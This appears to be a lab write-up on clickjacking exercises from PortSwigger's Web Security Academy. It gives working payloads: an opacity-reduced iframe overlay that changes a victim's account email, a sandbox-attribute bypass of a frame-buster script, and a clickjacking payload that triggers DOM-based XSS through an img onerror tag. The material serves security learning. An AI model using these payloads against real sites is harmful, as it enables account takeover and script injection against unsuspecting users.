 # Clickjacking

## Clickjacking with form input data from a URL parameter
- Overlay an iframe with a URL to the change email resource, with an email in there as the query parameter. Position the "Click Me" button 
```
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;
        left: 90px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0f00cb04fe73b982b56b6e00fe0054.web-security-academy.net/my-account?email=evil@hacker1.net"> </iframe>
```
- Clickjacking with a frame buster script
    - [Stanford framebusting article](https://seclab.stanford.edu/websec/framebusting/)

The web page uses this javascript code to detect if it is embedded in an iframe, and replace the contents of the body if it is:
```
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```
We can exploit the iframe sandbox attribute to bypass this by assigning it to the "allow-forms" directive. [w3schools iframe sandbox](https://www.w3schools.com/tags/att_iframe_sandbox.asp)
```
<iframe src="https://0a2f00850357cb87b9c1f11a00e70021.web-security-academy.net/my-account?email=evil@hacker.net" sandbox="allow-forms">
</iframe>
```

## Exploiting clickjacking vulnerability to trigger DOM-based XSS
  - Exploiting the sink in which the feedback form renders the name input without sanitization to inject an img tag which calls onprint. The URL has the hash #feedbackResult to position the screen futher down for the clickjacking overlay.
```
<style>
iframe {
    width: 1500px;
    height: 800px;
    position: abosolute;
    opacity: 0.1;
    z-index: 2;
}
div {
    position: relative;
    top: 740px;
    left: 130px;
    z-index: 1;
}
</style>
<div>Click here</div>
<iframe src="https://0ae60084045a3d9482a951c200d2005a.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=foo%40bar.com&subject=foo&message=foo#feedbackResult"></iframe>
```